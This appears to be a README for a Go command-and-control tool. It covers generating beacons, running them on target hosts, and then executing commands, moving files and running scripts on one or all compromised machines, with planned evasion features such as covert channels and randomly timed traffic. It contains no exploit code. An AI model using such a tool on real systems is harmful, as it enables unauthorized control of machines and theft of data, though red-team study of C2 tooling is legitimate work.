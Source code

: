 ![c2 image](https://i.imgur.com/x6sQ3Dd.png)

Usage:

After cloning the repo run server.go
Run 'create LHOST 8001' to generate a beacon. This will be placed in the out directory.
Execute the beacon on the target.

Inside the command server you can reference beacons using either their list id or their unique id.
For example if the output of 'list' is '[0] LuTNluGL@10.255.52.1 last seen 2021-05-23 21:07:17.208101927 -0400 EDT m=+179.667762638', you could refer to this beacon by LuTNluGL or 0.

Execute commands or download files from beacons:
exec BEACON cmd
download BEACON file

However if you select a beacon with the use command you can exempt the beacon identification.
Beacon identification can be replaced with * to schedule the operation for all live beacons.

Downloaded files will be saved to downloads/BEACON-IP/BEACON-ID/

Commands:

create &lt;listener&gt;<br />
download &lt;beacon id OR index&gt; &lt;remote file&gt; OR &lt;remote file&gt;<br />
upload &lt;beacon id OR index&gt; &lt;local file&gt; OR &lt;local file&gt;<br />
use &lt;beacon id OR index&gt;<br />
script &lt;beacon id OR index&gt; &lt;local file path&gt; &lt;remote executor path&gt;<br />
help &lt;command&gt;<br />
listeners <br />
exec &lt;beacon id OR index&gt; &lt;command&gt;<br />
list <br />
httplistener &lt;iface&gt; &lt;hostname&gt; &lt;port&gt;<br />

Todo list:
- Add communication over DNS, HTTPS, ICMP etc
- Exec:
    - HTTP: finished
- Upload
- Download: 
    - HTTP: finished
- Proxychaining beacons OR P2P beacons
- Automatic proxychains configuration depending on beacon route
- Add handling of multiple clients with random unique IDs: FINISHED
- RSA encrypt data instead of base 64
- Randomly timed sending of fragments
- Web interface
